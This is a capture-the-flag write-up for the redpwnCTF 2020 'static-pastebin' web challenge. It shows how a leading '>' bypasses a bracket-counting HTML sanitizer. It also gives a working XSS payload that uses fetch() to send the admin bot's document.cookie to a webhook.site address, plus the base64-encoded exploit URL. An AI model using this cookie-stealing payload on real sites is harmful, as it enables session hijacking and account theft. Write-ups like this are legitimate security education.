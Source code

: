 ### Challenge
```
web/static-pastebin
BrownieInMotion

I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here

Site: static-pastebin.2020.redpwnc.tf
```

### Recon
* There are 2 urls here to investigate

* First one, https://static-pastebin.2020.redpwnc.tf/ where whatever you paste (filling the text box) is base64 encoded and included in the url
```
Hi in the textbox --> https://static-pastebin.2020.redpwnc.tf/paste/#aGk=
```

* Second one, https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin, there is recaptcha here that is verified so its tough to script this, we will do manually ( instead of worrying of defeating it )
```
Once you verify captcha and submit the URL input (https://google.com) --> 302 to location: /submit?challenge=static-pastebin&url=https%3A%2F%2Fgoogle.com&message=The%20admin%20has%20visited%20your%20URL.
```

* Adding wehook url makes the admin-bot to visit the link. So its a classic cookie stealing maybe?

* Assuming, stealing cookie --> I suspect the flow to be,
 1. create a pastebin with XSS payload to steal cookie and send to webhook or local server
 2. Use this link in admin-bot
 3. steal the cookie

* Trying for XSS payloads in pastebin. There is a client side validator that removed `<` from the text. Example, using `<img src=xss onerror=alert(1)>`

```
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

* Giving one more try by directly using the base64 encoded version within the url without pasting via pastebin. ( Checking validation occuring while upload vs happening while it is downloaded )

* clean() looks to be executed when the base64 decoded version is returned.
  
* First, figuring out the proper XSS payload that bypasses this check and works. Right away trying some known knowns,
  * HTML encoded does not work --> `&lt;/TITLE&gt;&lt;SCRIPT&gt;alert(\"XSS\");&lt;/SCRIPT&gt;`
  * Hex encoded does not execute XSS
  * UTF8 encoding

* Right away using known knowns like above is wrong. Rethinking about the logic --> negating first should work using `>` to negate initially makes the payload work --> 
```
base64.b64encode("><img src=xss onerror=alert(1)>")
'PjxpbWcgc3JjPXhzcyBvbmVycm9yPWFsZXJ0KDEpPg=='
```

* Now, create payload to steal cookie of admin and send to webhook site. ( Get webhook site link )
```
><img src=xss onerror=fetch("https://webhook.site/829178bd-b940-4301-9de8-fd54da1ef08d?cookie=".concat(document.cookie))>
```

* Get base64 encoded version of it, genereate the url and send it to admin-bot to receive the flag
```
https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPXhzcyBvbmVycm9yPWZldGNoKCJodHRwczovL3dlYmhvb2suc2l0ZS84MjkxNzhiZC1iOTQwLTQzMDEtOWRlOC1mZDU0ZGExZWYwOGQ/Y29va2llPSIuY29uY2F0KGRvY3VtZW50LmNvb2tpZSkpPg==
```

### Solve

<img src="pastebin.png">

<img src="webhook.png">